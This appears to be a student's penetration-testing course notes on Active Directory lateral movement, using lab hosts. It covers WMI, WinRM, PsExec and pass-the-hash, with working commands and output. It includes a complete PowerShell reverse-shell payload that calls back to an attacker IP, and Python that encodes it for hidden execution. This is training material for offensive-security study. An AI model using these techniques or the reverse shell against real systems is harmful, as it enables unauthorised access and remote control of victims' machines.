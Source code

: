 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Module 23: Lateral Movement in Active Directory

## Active Directory Lateral Movement Techniques

### WMI and WinRM

WMI communicates through _Remote Procedure Calls (RPC)_ over port 135 for remote access and a port between 19152 and 65535 for session data.

Using **wmic** to launch a remote process:

{% code overflow="wrap" %}
```batch
C:\Users\jeff>wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```
{% endcode %}

Using **PowerShell** requires a few more steps:

{% code overflow="wrap" %}
```powershell
// Creating teh PSCredential object
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

// Creating a Common Information Model (CIM) via the New-CimSession cmdlet.
PS C:\Users\jeff> $options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $options 
PS C:\Users\jeff> $command = 'calc';

// Invoking the CIM Method.
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```
{% endcode %}

Using **python** to encode a PowerShell reverse shell, so we don't need to escape any special characters when inserting it as a WMI payload:

{% code overflow="wrap" %}
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
{% endcode %}

WinRM communicates over TCP port 5986 for encrypted HTTPS traffic and 5985 for plain HTTP.

Utilizing WinRM via **winrs** to execute remote commands:

```batch
C:\Users\jeff> winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
FILES04
corp\jen
```

Utilizing WinRM via **New-PSSession** to execute remote commands:

{% code overflow="wrap" %}
```powershell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
{% endcode %}

### PsExec

PSExec needs three things to be used for lateral movement:

1. The user that authenticates to the target machine needs to be part of the Administrators local group
2. The _ADMIN$_ share must be available
3. File and Printer Sharing must be turned on

By default, those last two requirements are met on modern Windows Server systems.

Using psexec to start an interactive cmd prompt on a remote device:

```batch
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
FILES04

C:\Windows\system32> whoami
corp\jen
```

### Pass the Hash

_Pass the Hash (PtH)_ allows us to authenticate to a remote system or service using a user's NTLM hash instead of their plaintext password. This will _only_ work for servers or services using NTLM authentication. Not fo rservers/services using Kerberos authentication.

PtH also has three requirements:

1. SMB through the firewall must be open (commonly port 445)
2. Windows File and Printer Sharing must be enabled
3. The _ADMIN$_ must also be available.

Using **wmiexec** to pass the hash:

{% code overflow="wrap" %}
```bash
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```
{% endcode %}

### Overpass the Hash

### Pass the Ticket

### DCOM

## Active Directory Persistence

### Golden Ticket

### Shadow Copies
